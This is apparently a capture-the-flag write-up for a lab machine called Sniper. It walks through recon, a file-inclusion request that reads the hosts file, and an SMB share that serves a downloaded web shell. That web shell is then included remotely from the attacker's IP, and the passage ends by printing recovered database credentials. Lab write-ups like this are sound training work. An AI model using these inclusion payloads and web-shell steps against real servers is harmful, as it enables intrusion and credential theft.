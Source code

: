 # 🔫 Sniper

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First we start by an nmap :

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I first go on the webpage, and find a nice interface with sub categories:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

then click on the user interface that seemed the only legit page on the homepage:

decided to create a user Felix/Felix:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and when trying to log in:&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So I start to wonder if the other pages weren't fake rabbit holes:

In the "our service" page, we find a dropdown menu for the languages linked to a php file that could lead to RFI

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we try and go fetch a file in a subdirectory:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://10.129.229.6/blog/?lang=/windows/system32/drivers/etc/hosts
```

We can now try to gain foothold via a smb share&#x20;

{% embed url="https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html" %}

### Create a Webshell with Remote File Inclusion

Configure the proper permissions.

```
~$ cd /var/www/html
/var/www/html$ sudo mkdir sniper
/var/www/html$ chmod 0555 /var/www/html/sniper/
/var/www/html$ chown -R nobody:nogroup /var/www/html/sniper/
/var/www/html$ ls -l
dr-xr-xr-x 2 nobody nogroup  4096 Feb 22 13:52 sniper
```

configured the `smb.conf` file in the location `/etc/samba/smb.conf`

```
/etc/samba$ cat smb.conf 
[global]
    workgroup = WORKGROUP
    server string = Samba Server %v
    netbios name = indishell-lab
    security = user
    map to guest = bad user
    name resolve order = bcast host
    dns proxy = no
    bind interfaces only = yes
[sniper]
    path = /var/www/html/sniper
    writable = no
    guest ok = yes
    guest only = yes
    read only = yes
    directory mode = 0555
    force user = nobody
```

restart the Samba service to get the changes effective.

```
service smbd restart
```

ast part is preparing a payload that can be called by the webserver. I downloaded the script `mannu.php` and placed it in `box.php` in the location `/var/www/html/`

```
wget https://raw.githubusercontent.com/incredibleindishell/Mannu-Shell/master/mannu.php -O /var/www/html/sniper/box.php
```

And if i request the following url with the RFI:&#x20;

```
http://10.129.229.6/blog/?lang=\\10.10.14.166\sniper\box.php
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the `../user/db.php` file, if we click the edit button, we can see some very interesting stuff:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we got some credentials for dbuser (36mEAhz/B8xQ\~2VM)

